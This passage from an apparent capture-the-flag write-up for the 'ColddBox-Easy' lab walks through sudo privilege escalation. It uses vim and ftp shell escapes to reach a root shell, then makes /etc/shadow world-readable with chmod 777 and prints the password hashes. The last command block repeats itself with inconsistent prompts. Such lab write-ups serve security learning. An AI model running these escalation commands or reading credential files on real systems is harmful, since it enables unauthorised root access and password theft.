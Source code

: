 ```

I only use those scripts as last resort so I wont do it!

there is already 3 main methods anyway 

Feel free to ssh to try more...

```
### The good old way

We alread know vim/vi or some text editors run commands so basically if they run as root

we run commands as root...ask nicely for a shell

```
c0ldd@ColddBox-Easy:~$ sudo vim -c ':!/bin/sh'
[sudo] password for c0ldd: 

# id                               
uid=0(root) gid=0(root) groups=0(root)

```

### The file transfer pwnage

ftp runs commands? who would know?

```
c0ldd@ColddBox-Easy:~$ sudo ftp
ftp> !/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)

```
### Changing the owner

sudo on chmod is like communism memes, it belongs to everyone

```
c0ldd@ColddBox-Easy:~$ sudo chmod 777 /etc/shadow
c0ldd@ColddBox-Easy:~$ cat /etc/shadow | grep c0ldd
c0ldd:$6$AnciUfDx$Y9lDZThc6/Q/rWMajprHD54ynCLBmy8swBujZO.CG6b7j7YZiR/RIrdhzn2euH1A9r2jJE2U0bbLarUFdwSI40:18529:0:99999:7:::
c0ldd@ColddBox-Easy:~$ cat /etc/shadow | grep root
root:$6$VMnvWAfh$Yg04FhiScJ8Pv3ET6Ys.4G.BdLC0HyyxcDB1jVa28F20gdz4zI.GyrQSg8elF4nx3yH1g3ZKA/uvO8Fqll.T70:18939:0:99999:7:::

```
At this point you can do anything lol! 

you are basically root already

Like seriously

```
c0ldd@ColddBox-Easy:~$ sudo chmod 777 /root
c0ldd@ColddBox-Easy:~$ cd /root
c0ldd@ColddBox-Easy:/root$ ls
root.txt
c0ldd@ColddBox-Easy:~$ sudo chmod 777 /root
c0ldd@ColddBox-Easy:~$ cd /root
c0ldd@ColddBox-Easy:/root$ ls
root.txt
```
